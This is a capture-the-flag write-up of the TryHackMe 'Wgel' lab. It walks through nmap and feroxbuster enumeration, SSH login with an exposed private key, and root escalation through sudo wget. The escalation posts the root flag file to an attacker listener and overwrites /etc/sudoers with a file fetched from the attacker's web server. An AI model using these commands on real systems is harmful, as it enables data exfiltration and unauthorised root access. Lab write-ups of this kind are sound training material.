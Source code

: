 A. Enumeration

A.1 Nmap

```
┌[parrot]─[23:35-01/07]─[/home/glack/Desktop/THM/shellgen]
└╼glack$nmap -sV -sT -A 10.10.137.58                                     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 23:35 IST
Nmap scan report for 10.10.137.58
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94961b66801b7648682d14b59a01aaaa (RSA)
|   256 18f710cc5f40f6cf92f86916e248f438 (ECDSA)
|_  256 b90b972e459bf32a4b11c7831033e0ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.51 seconds
```

Nmap shows only two ports are open - 22 and 80

A.2 HTTP

Web server shows default installation of Apache

However I found this interesting comment in the source code of the index page

![[wgel source code.png]]

I found a potential username on the website "Jessie"

A.3 Directory Brute forcing

I Ran a feroxbuster command to checkout if there are any interesting directories

```
[parrot]─[23:35-01/07]─[/home/glack/Desktop/THM/shellgen]
└╼glack$feroxbuster -u http://10.10.137.58/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -n
```

breakdown of the command

-w - The wordlist i want to use
-u - the target URL
-n - Turn off recursive scanning

And i found this

```
http://10.10.137.58/sitemap

```

Then i scanned the ""/sitemap" and found these resources

```
301        9l       28w      321c http://10.10.137.58/sitemap/images
200      286l      755w    10346c http://10.10.137.58/sitemap/contact.html
200      312l      968w    12232c http://10.10.137.58/sitemap/about.html
200      312l     1020w    12745c http://10.10.137.58/sitemap/blog.html
200      516l     1786w    21080c http://10.10.137.58/sitemap/index.html
200      287l      803w    10131c http://10.10.137.58/sitemap/services.html
200      447l     1110w    17257c http://10.10.137.58/sitemap/shop.html
301        9l       28w      318c http://10.10.137.58/sitemap/css
200      328l      872w    11428c http://10.10.137.58/sitemap/work.html
301        9l       28w      317c http://10.10.137.58/sitemap/js
301        9l       28w      320c http://10.10.137.58/sitemap/fonts
301        9l       28w      319c http://10.10.137.58/sitemap/sass

```
 
Not that useful, however i did find another potential username in the blog section

![[wgel 2 dave username.png]]

With nothing much to go on, tried a different wordlist for directory brute force

```
[parrot]─[01:39-02/07]─[/usr/share/wordlists/seclists/Discovery/Web-Content]
└╼glack$sudo feroxbuster -u http://10.10.137.58/sitemap  -w /usr/share/wordlists/common.txt -t 50 -n
```

And we do find something usefull


```
http://10.10.137.58/sitemap/.ssh

```

On visiting the url we can see a rsa key file available 

![[wgel id_rsa.png]]

we download the file using

```
┌[parrot]─[01:42-02/07]─[/home/glack/Desktop/THM/wgel]
└╼glack$wget http://10.10.137.58/sitemap/.ssh/id_rsa
```

B. Gaining Access

We can use this key to ssh login into the target machine by using potential usernames - "dave" and "jessie"
 
We must not forget to change the permissions for "id_rsa" or we may encounter an error

```
┌[parrot]─[01:44-02/07]─[/home/glack/Desktop/THM/wgel]
└╼glack$chmod 600 id_rsa
```

we successfully log into the machine with jessie's username

```
┌[parrot]─[01:44-02/07]─[/home/glack/Desktop/THM/wgel]
└╼glack$ssh -i id_rsa jessie@10.10.137.58
```

We easily get the user flag 

![[wgel user flag.png]]

C. Privilege Escalation

We can check which commands can be run by jessie's user with sudo(root) privileges using the below command 

```
sudo -l
```

```
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```

We can see that we can run "wget" command to get the root flag and root shell. 

We can use GTFO bins to see the commands we can run for "sudo wget" for root shell, however they were not working so i tried a different method.

I discovered this method on thewriteup - https://sckull.github.io/postsl/wgel/
All credit goes to schkull

C.1 Root Flag

We can used the sudo command to post the contents of root.txt flag on our machine

First we start a listener on port 8000, which we can do by running the following:

```
┌[parrot]─[02:14-02/07]─[/home/glack/Downloads]
└╼glack$nc -lnvp 8000

```


And we post the contents of root flag using

```
sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.17.24.189:8000

```

and we get it easily

![[wgel root flag.png]]

C.2 Root Shell

Now we are not satisfied with just the root flag and would like to get he root shell

We create a file with the content - 
```

#jessie  ALL=(root) NOPASSWD: /usr/bin/wget
jessie  ALL=(ALL) NOPASSWD: ALL

```

Turn our machine into a webserver using

```
┌[parrot]─[02:22-02/07]─[/home/glack/Desktop/THM/wgel]
└╼glack$sudo python3 -m http.server 
```

We move to the /etc directory and download our file there, now this replaces the existing "sudoers" file with the one we created.

We use the below commands

```

jessie@CorpOne:~/Documents$ cd /etc

jessie@CorpOne:/etc$ sudo /usr/bin/wget 10.17.24.189:8000/sudoers --output-document=sudoers
```

And we can confirm this by using

```
jessie@CorpOne:/etc$ sudo -l
User jessie may run the following commands on CorpOne:
    (ALL) NOPASSWD: ALL
```


And we easily get the root shell

![[wgel Root shell.png]]

